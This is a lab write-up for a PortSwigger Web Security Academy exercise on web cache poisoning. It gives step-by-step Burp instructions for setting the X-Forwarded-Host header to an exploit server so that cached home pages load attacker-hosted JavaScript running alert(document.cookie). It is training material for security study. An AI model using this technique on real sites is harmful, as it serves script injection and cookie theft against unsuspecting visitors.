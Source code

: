 # Web cache poisoning with an unkeyed header

## Description

[This lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header) is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page.

## Reproduction and proof of concept

1. With Burp running, load the website's home page
2. In Burp, go to **Proxy" -> "HTTP history** and study the requests and responses generated. Find the `GET` request for the home page and send it to Burp Repeater.
3. Add a cache-buster query parameter, such as `?cb=1234`.
4. Add the `X-Forwarded-Host` header with an arbitrary hostname, such as `example.com`, and send the request.
5. Observe that the `X-Forwarded-Host` header has been used to dynamically generate an absolute URL for importing a JavaScript file stored at ``/resources/js/tracking.js``.

![Web cache poisoning](/_static/images/cache1.png)

6. Replay the request and observe that the response contains the header ``X-Cache: hit``. This tells us that the response came from the cache.
7. Go to the exploit server and change the file name to match the path used by the vulnerable response:

```text
/resources/js/tracking.js
```

8. In the body, enter the payload `alert(document.cookie)` and store the exploit.
9. Open the GET request for the home page in Burp Repeater and remove the cache buster.
10. Add the following header, remembering to enter your own exploit server ID:

```text
X-Forwarded-Host: your-exploit-server-id.web-security-academy.net
```

11. Send your malicious request. Keep replaying the request until you see your exploit server URL being reflected in the response and `X-Cache: hit` in the headers.

![Web cache poisoning](/_static/images/cache2.png)

12. To simulate the victim, load the poisoned URL in your browser and make sure that the `alert()` is triggered. Note that you have to perform this test before the cache expires. The cache on this lab expires every 30 seconds.
13. If the lab is still not solved, the victim did not access the page while the cache was poisoned. Keep sending the request every few seconds to re-poison the cache until the victim is affected and the lab is solved.

## Exploitability

An attacker will need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser. 
